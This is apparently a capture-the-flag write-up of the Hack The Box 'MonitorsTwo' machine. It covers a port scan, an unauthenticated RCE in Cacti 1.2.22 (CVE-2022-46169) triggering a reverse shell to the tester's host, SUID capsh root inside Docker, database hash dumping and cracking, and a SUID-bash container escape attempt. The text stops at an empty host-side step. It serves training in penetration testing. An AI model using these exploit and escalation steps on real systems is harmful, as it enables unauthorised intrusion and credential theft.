## RUSTSCAN:

`PORT STATE SERVICE REASON VERSION 22/tcp open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA) | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU= | 256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA) | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A= | 256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519) |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR 80/tcp open http syn-ack ttl 63 nginx 1.18.0 (Ubuntu) |_http-server-header: nginx/1.18.0 (Ubuntu) |_http-favicon: Unknown favicon MD5: 4F12CCCD3C42A4A478F067337FE92794 |_http-title: Login to Cacti | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS`

* * *

## SSH:

As usual we can´t d much about SSH service as a recent version of it is used and no known exploits are out in the wild, Bruteforce is not contepled so I will move forward with other services and come back when I have a set of valid credentials for SSH service.

* * *

## HTTP:

Surfing manually to the website we are presented to a login page where it's mentioning Cacti:


Version is 1.2.22.
Checking on website seems like no traces in HTML sources have been left by mistake by DEVS.

Googling about the service seems like is available an Unauthenticated RCE is available: https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/

And seems like we can use Metasploit as well since a ready to use exploit is available in the framework:

Unfortunately seems like MSF payload is not givind back anything so far:


After trying out several version available on Github of this POC the one that gave me back a RCE was this one: https://github.com/devilgothies/CVE-2022-46169
`┌──(root㉿kali-linux)-\[/home/millycash/Downloads/CVE-2022-46169\]
└─# python3 CVE-2022-46169.py --url http://monitorstwo.htb/ --ip 10.10.14.9 --port 9999

```
| ---------------------------------------------------- |
| CVE-2022-46169 | Unauthenticated RCE in Cacti 1.2.22 |
|                  PoC by lukka7sec                    |
| ---------------------------------------------------- | 
```

\[-\] Checking vulnerability...
\[-\] Cacti application is VULNERABLE
\[-\] Executing reverse shell...

<center>

# 504 Gateway Time-out

</center>

* * *

<center>nginx/1.18.0 (Ubuntu)</center>`

And we have a RCE baby:


* * *

## Road to Local.txt:

Immediately after first login seems like we are in a Docker environment:


Since no other users except www-data and root are avaialable and no local.txt ios avaolable under /home i guess we have to find a way to escape this docker environment.
Here I decided to upload and run Linpeas.sh to make my life easier and actually this is what I've found:

Ok Linpeas ensured what I tought about Deocker environment, and showed some custom bash script in the root folder. But what seems interesting is that capsh with SUID bit that we can use as leverage to get root into Docker environment: https://gtfobins.github.io/gtfobins/capsh/#suid

And that bash script seems like is refreshing permissions on www folder and resetting admin accont password in the catcti sql DB to "Require password"


And sending that crafted payload from GTFO bins leverages us root:

```Bash
www-data@50bca5e748b0:/$ ./sbin/capsh --gid=0 --uid=0 --
./sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/#
```

Ok so here seems like getting root into DB was not what we needed, I did a step back and checked again the entrypoint.sh and most specially this:
`if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql`

I shipped that command and I'm in into Cacti DB.

Then if we list for tables available, these seems interesting:


And checking the first one we have some hashes:
`| 1 | admin | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC | 0 | Jamie Thompson | admin@monitorstwo.htb | | on | on | on | on | on | 2 | 1 | 1 | 1 | 1 | on | -1 | -1 | -1 | | 0 | 0 | 663348655 | | 3 | guest | 43e9a4ab75570f5b | 0 | Guest Account | | on | on | on | on | on | 3 | 1 | 1 | 1 | 1 | 1 | | -1 | -1 | -1 | | 0 | 0 | 0 | | 4 | marcus | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C | 0 | Marcus Brune | marcus@monitorstwo.htb | | | on | on | on | on | 1 | 1 | 1 | 1 | 1 | on | -1 | -1 | | on | 0 | 0 | 2135691668 |`

And cracking marcus hash we have his password:
`┌──(root㉿kali-linux)-[/home/millycash/Downloads] └─# john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt Using default input encoding: UTF-8 Loaded 1 password hash (bcrypt [Blowfish 32/64 X3]) Cost 1 (iteration count) is 1024 for all loaded hashes Will run 16 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status funkymonkey (marcus) 1g 0:00:00:20 DONE (2023-04-30 15:39) 0.04800g/s 414.7p/s 414.7c/s 414.7C/s 474747..brigitte Use the "--show" option to display all of the cracked passwords reliably Session completed`

Then trying to crack admin password on the portal as well but it took forever which may lead me to think that was not needed at all.
But then I was almost forgetting about SSH, now we have a username and password so logging in with marcus as user and his password we can login into ssh and grab the first flag:


* * *

## Road to Root.txt:

Now that our first stop is reached we have to see how can we do to escalate our privileged to Root.
First thing first from a manual enumeration seems like Marcus can't any sudo permissions so far...

Again here I will upload linpeas and do another enumeration on the host machine this time as Marcus and see what can we see...

`╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.31

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588

╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2

╔══════════╣ Protections
═╣ AppArmor enabled? .............. You do not have enough privilege to read the profile set.
apparmor module is loaded.
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found
═╣ Execshield enabled? ............ Execshield Not Found
═╣ SELinux enabled? ............... sestatus Not Found
═╣ Seccomp enabled? ............... disabled
═╣ AppArmor profile? .............. unconfined
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... enabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes (vmware)

╔══════════╣ Checking if containerd(ctr) is available
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/containerd-ctr-privilege-escalation
ctr was found in /usr/bin/ctr, you may be able to escalate privileges with it
ctr: failed to dial "/run/containerd/containerd.sock": connection error: desc = "transport: error while dialing: dial unix /run/containerd/containerd.sock: connect: permission denied"

╔══════════╣ Checking if runc is available
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation
runc was found in /usr/sbin/runc, you may be able to escalate privileges with it

╔══════════╣ Searching docker files (limit 70)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation
lrwxrwxrwx 1 root root 33 Jan 5 09:50 /etc/systemd/system/sockets.target.wants/docker.socket -> /lib/systemd/system/docker.socket
-rw-r--r-- 1 root root 295 Feb 25 2021 /usr/lib/systemd/system/docker.socket
-rw-r--r-- 1 root root 0 Jan 5 09:50 /var/lib/systemd/deb-systemd-helper-enabled/sockets.target.wants/docker.socket

╔══════════╣ Mails (limit 50)
4721 4 -rw-r--r-- 1 root mail 1809 Oct 18 2021 /var/mail/marcus
4721 4 -rw-r--r-- 1 root mail 1809 Oct 18 2021 /var/spool/mail/marcus
`

OK here can we see much that is interesting and will try to drill it down...
Checking out that Post-fix mail we can read Marcus email from Administrator where several exploit are mentioned that can be exploited?


Checking that Poolkit exploit is not working so we have to move forward...Same with that kernel exploit but nothing came back..

After several test I came across this one: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount

And judging our situation  we have root user in docker env; we have normal user outside the docker env and we want to escalate.

What I did was:

- Checked on main host what were the mapped shares:

```Bash
marcus@monitorstwo:/var/lib$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.2M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  65% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  65% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  65% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

- Good those shm shares seems interesting, let's see if they are also in docker container:

```Bash
root@50bca5e748b0:/dev/shm# df -h
df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         6.8G  4.3G  2.4G  65% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda2       6.8G  4.3G  2.4G  65% /entrypoint.sh
shm              64M     0   64M   0% /dev/shm
tmpfs           2.0G     0  2.0G   0% /proc/acpi
tmpfs           2.0G     0  2.0G   0% /proc/scsi
tmpfs           2.0G     0  2.0G   0% /sys/firmware
```

- Good! And now to see if we can se files between container and host I will try to create a file into share from Container -> Host:

```Bash
//On Container
root@50bca5e748b0:/dev/shm# touch yovecio.txt
touch yovecio.txt
root@50bca5e748b0:/dev/shm# ls -al
ls -al
total 0
drwxrwxrwt 2 root root  60 Apr 30 14:37 .
drwxr-xr-x 5 root root 340 Apr 30 09:55 ..
-rw-r--r-- 1 root root   0 Apr 30 14:37 yovecio.txt
root@50bca5e748b0:/dev/shm# 


//On Host
marcus@monitorstwo:/var/lib$ ls /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
yovecio.txt
```

- Good again, seems like we have all the pre-requisites in order to escape this Docker. Now I will stick to the guide, I will start by copying a bash binary on the shm share:

```Bash
marcus@monitorstwo:/var/lib$ cd /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
marcus@monitorstwo:/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm$ ls
yovecio.txt
marcus@monitorstwo:/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm$ cp /bin/bash . 
marcus@monitorstwo:/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm$ ls
bash  yovecio.txt
marcus@monitorstwo:/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm$ ls -al
total 1160
drwxrwxrwt 2 root   root        80 Apr 30 14:52 .
drwx-----x 3 root   root      4096 Mar 21 10:49 ..
-rwxr-xr-x 1 marcus marcus 1183448 Apr 30 14:52 bash
-rw-r--r-- 1 root   root         0 Apr 30 14:37 yovecio.txt
```

- Then from the container's mounted shm share we have to edit permissions to change owner to root user and root group, adding 777 permission and SUID sticky bits:

```Bash
//In Container: Checking that bash is there
root@50bca5e748b0:/dev/shm# ls -al
ls -al
total 1156
drwxrwxrwt 2 root root      80 Apr 30 14:52 .
drwxr-xr-x 5 root root     340 Apr 30 09:55 ..
-rwxr-xr-x 1 1000 1000 1183448 Apr 30 14:52 bash
-rw-r--r-- 1 root root       0 Apr 30 14:37 yovecio.txt

//In Container: Setting root user and root group as owner
root@50bca5e748b0:/dev/shm# chown root:root bash
chown root:root bash
root@50bca5e748b0:/dev/shm# ls -al
ls -al
total 1156
drwxrwxrwt 2 root root      80 Apr 30 14:52 .
drwxr-xr-x 5 root root     340 Apr 30 09:55 ..
-rwxr-xr-x 1 root root 1183448 Apr 30 14:52 bash
-rw-r--r-- 1 root root       0 Apr 30 14:37 yovecio.txt

//In Container: Setting 777 and SUID sticky bit
root@50bca5e748b0:/dev/shm# chmod 4777 bash
chmod 4777 bash
root@50bca5e748b0:/dev/shm# ls -al
ls -al
total 1156
drwxrwxrwt 2 root root      80 Apr 30 14:52 .
drwxr-xr-x 5 root root     340 Apr 30 09:55 ..
-rwsrwxrwx 1 root root 1183448 Apr 30 14:52 bash
-rw-r--r-- 1 root root       0 Apr 30 14:37 yovecio.txt
```

- Now we can see that we have a SUID bash on the Host as well:

```Bash
marcus@monitorstwo:/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm$ ls -al
total 1160
drwxrwxrwt 2 root root      80 Apr 30 14:52 .
drwx-----x 3 root root    4096 Mar 21 10:49 ..
-rwsrwxrwx 1 root root 1183448 Apr 30 14:52 bash
-rw-r--r-- 1 root root       0 Apr 30 14:37 yovecio.txt
```

- If we run the binary by exploiting SUID we can get root and grab last flag: But it's not working I always get permission denied...

Again going back on what we have found from last Linpeas scan:

```Bash
╔══════════╣ Protections
═╣ AppArmor enabled? .............. You do not have enough privilege to read the profile set.                                                                           
apparmor module is loaded.
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found                                                                                                                       
═╣ Execshield enabled? ............ Execshield Not Found                                                                                                                
═╣ SELinux enabled? ............... sestatus Not Found                                                                                                                  
═╣ Seccomp enabled? ............... disabled                                                                                                                            
═╣ AppArmor profile? .............. unconfined
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... enabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes (vmware)
```

We have SeLinux=Disabled, Seccomp=Disabled and AppArmor=Uncofined which means we are satisfying all the variables in the equation:



Plus we have root inside docker and non-root outside.

Edit: But it didn't worked at all cause we had readonly fs!

Finally I made it work and the solutions was to use a very specific command: **findmnt**

Running this commando on the host as Marcus shows me all the shares what were mounted:

```Bash
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RN
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
```

And more specific what is interesting was the last rows of the output; yesterday by only using  df -h  it was showing only one part of those shares, the one with "nosuid" that's why it was not working to get suid on bash even by having RW permissions.(I tried only those shm and not overlay... dumb me!)

About those this folder have RW from host->container, haven't any "nosuid" and is eventually mapped on the container as well:

```Bash
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RN
```

To check my theory I created a dummy file on /tmp in the container and checked that is visible on that share path on the host side:

```Bash
//Container side
root@50bca5e748b0:/tmp# touch test.txt
touch test.txt
root@50bca5e748b0:/tmp# ls
ls
bash                                   sess_795d19b56ea897e9ba986bb156833b21
linpeas.sh                             sess_7ac454622f772705471c6dc5f6668a8a
sess_087527abee32fd097aa02b65e2a817f5  sess_8021a1c61abc42b211d5b88f28eac8e3
sess_0884f94921e049da57b32d1c947d6a27  sess_817b6f79671f69e454b98f759e080c73
sess_0c69a2bde63a7ab86e46e1cef18a6290  sess_81967f8c87944207e6d3998a5fdfbb2a
sess_0f768dc44e3cdae160f9db3e64114826  sess_8c1f857e7d783bfda8126d21d51177cc
sess_13767e301d59e876d45c4569a25fe3ec  sess_922e779964dd305c673012b01bdb0f8b
sess_1ce308516c2444b74c105adfb8c22daa  sess_9369a03995c14f428221afa239fca221
sess_22fde9df9ef5bfbbee6129a2a55e609b  sess_9d4a564b704a28c8ef77c81ada981824
sess_24223a9e4ce92d00421cb8a7952528b9  sess_a4b8d020e70ed27ec9f2fda0d4d49376
sess_26fb851f3394f329db5e774a29b9575e  sess_a8744dfda8a4b7c6596e704c2f896596
sess_2aff586e3db19927fbd1aaefd95155f8  sess_af805d2e2dd1ed469dfc485a18e2aba7
sess_3304be73c178af91c67c77f768ba78b4  sess_b07aaba56643f4186a38f0c8514ae596
sess_363af84d86b3619a7355fe0eabf25c65  sess_b2340f4413835ee06893efd03f6911ba
sess_3bec47cf08195f791a721c78ddf3564d  sess_bad4441363924d5aa75dfed4568eb00d
sess_49e05701b9a35a797241bdacbfc4d207  sess_bd038959c8bc7e44aea62d2a5fbe6406
sess_50ded4785685439cfa4c03f2c47315ea  sess_bdcf4636d042d1b5a5e2b89f4f53a949
sess_51d05f4556c295c9a84aa518e6a22c4a  sess_c555c6d40f29efddfe0157c8dd94a118
sess_588200c1844986e45ce519cf559cf925  sess_cddb8eda54409e32c808ce76bd15caee
sess_5acee4be2ee9ce089219dc95753af867  sess_cf0ff576e442fe466d19c043db975227
sess_669a329fdb296e62e6fe61e24a01a78f  sess_cffa5d1af38914dc94ffced21d27e4c1
sess_6c391ee7eb1ea2a1e86d99bf642e2b6d  sess_d0ac10abce62a4e800809d2558cd8c40
sess_6d8b5a2dfb533b9a206cbd7d2c7a69d2  sess_d8cb4bd0123ab255366c1515b9e65c68
sess_6e55bd574011f45327b3765c686db06c  sess_ddcad730d8b7fae4ae463aa3a80368f0
sess_737f29a508e797784444fcabd57fda15  sess_e2de9beac18ea9ed7a156be674365060
sess_767c04f991a671f50f48fbdb39e196aa  sess_fa03c885b5ac97819f07fb2f8a1820ac
sess_792e4f32455677a86256a57a8220b2ba  test.txt


//Host side
